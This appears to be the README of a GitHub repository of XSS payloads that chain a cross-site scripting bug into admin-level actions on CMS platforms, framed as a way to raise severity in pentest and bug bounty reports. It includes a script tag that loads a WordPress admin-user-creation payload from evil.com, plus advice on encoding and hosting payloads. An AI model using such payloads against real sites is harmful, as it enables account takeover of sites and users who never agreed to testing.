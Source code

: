 # Weaponised XSS Payloads
_XSS payloads designed to turn alert(1) into P1._

## The Blog Post
This repo was released alongside a blogpost titled "How to Upgrade Your XSS Bugs from Medium to Critical" https://medium.com/@hakluke/upgrade-xss-from-medium-to-critical-cb96597b6cc4

## What is this?

In this repository you will find a bunch of JavaScript files which can be loaded into an XSS payload in order to perform sensitive functions on popular CMS platforms in the context of the victim's browser. This can help to chain a plain old XSS bug into something more critical, like an account takeover.

This is perfect for beefing up the severity of a pentest or bug bounty report by demonstrating real security impact.

Payloads are slowly being added either as I have time. There are plenty more to come, if you can help out - pull requests are welcome! If you're looking for inspiration on what to create - check the "issues" tab on this repo.

## How To

The simplest way to use these payloads is to host them somewhere and load them into the src attribute of a script tag for your XSS payload like this:

```
<script src="http://evil.com/wordpress_create_admin_user.js"></script>
```

Alternatively, depending on the context and length of the payload, it can sometimes be [minified](https://javascript-minifier.com/), [encoded](https://eve.gd/2007/05/23/string-fromcharcode-encoder/) and then just included directly into the request.

In order to host the JavaScript file, you may need to set the Content-Type to `application/javascript`. To achieve this with PHP, you can simply prepend this line to the top of any of the payloads, save it as a .php file and host it on your PHP-enabled webserver:

```
<?php header("Content-Type: application/javascript"); ?>
```


## Credits

[This article](https://www.shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/) from Shift8 is what inspired me to make this repo. The JS in the article has a couple of minor typos but the concepts are spot on.
